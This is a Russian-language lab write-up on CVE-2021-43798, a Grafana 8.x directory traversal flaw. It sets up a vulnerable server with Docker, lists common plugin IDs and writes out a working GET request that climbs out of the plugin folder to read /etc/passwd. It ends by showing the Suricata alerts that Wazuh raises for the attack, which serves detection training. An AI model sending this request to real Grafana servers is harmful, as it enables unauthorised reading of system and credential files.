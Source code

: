 # CVE-2021-43798

### Материалы:

* [https://grafana.com/blog/2021/12/08/an-update-on-0day-cve-2021-43798-grafana-directory-traversal/](https://grafana.com/blog/2021/12/08/an-update-on-0day-cve-2021-43798-grafana-directory-traversal/)
* [https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p](https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)

Grafana — это веб-приложение для аналитики и интерактивной визуализации с открытым исходным кодом. В декабре 2021 года пользователь Twitter обнаружил уязвимость 0day, позволяющую злоумышленникам, не прошедшим проверку подлинности, использовать эту уязвимость для увеличения веб-пути и загрузки произвольных файлов через URL-адрес Grafana 8.x.

### Эксплуатация уязвимости

Для того, чтобы запустить уязвимый сервер Grafana 8.2.6, выполните команду&#x20;

```
docker compose up -d
```

После запуска сервера вы можете просмотреть страницу входа по адресу `http://ваш-ip:3000`, учетные данные для этой уязвимости отсутствуют.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Уязвимость вызвана модулем плагина, который может обслуживать статический файл внутри папки плагина. Но для обхода проверки злоумышленник может использовать `../`, чтобы перейти из папки плагина в родительскую папку и загрузить произвольные файлы. Чтобы проэксплуатировать данную уязвимость, вам необходимо знать действительный идентификатор плагина, например alertlist. Вот некоторые из распространенных идентификаторов плагина:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Отправьте следующий GET-запрос, чтобы прочитать файл /etc/passwd

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.130:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
